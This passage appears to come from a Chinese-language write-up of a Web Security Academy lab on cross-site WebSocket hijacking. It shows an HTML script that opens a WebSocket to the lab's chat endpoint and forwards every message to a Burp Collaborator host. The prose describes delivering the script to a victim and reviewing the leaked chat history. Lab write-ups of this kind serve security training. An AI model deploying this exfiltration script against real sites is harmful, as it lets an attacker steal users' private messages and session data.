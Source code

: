 
```plain
<script>
    var ws = new WebSocket('wss://0a5b005b04b58a4785f8ef680011001f.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://va9kalmffwrnofty137wjxqy6pch06.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

[![](assets/1705890866-14a38786406eb8565ac76aa4b98a9bd5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110747-c1e59262-b5ae-1.png)  
随后分发请求给受害者用户并刷新 burpsuite 中的 DNS 监听，可以看到又 HTTP 请求过来  
[![](assets/1705890866-7adb14e2aa619e7a51cc0d84840200b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110803-cb6942a2-b5ae-1.png)  
尽管已经确认了 CSWSH 漏洞，但只是泄露了一个全新会话的聊天历史记录，并不是特别有用，随后我们转到历史记录中可以看到请求并没有包含 cookie  
[![](assets/1705890866-958f9c15ac4dc85b2bf38d892d508e44.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110819-d4f3fe52-b5ae-1.png)  
重新创建先前在漏洞利用服务器上测试的 CSWSH 脚本
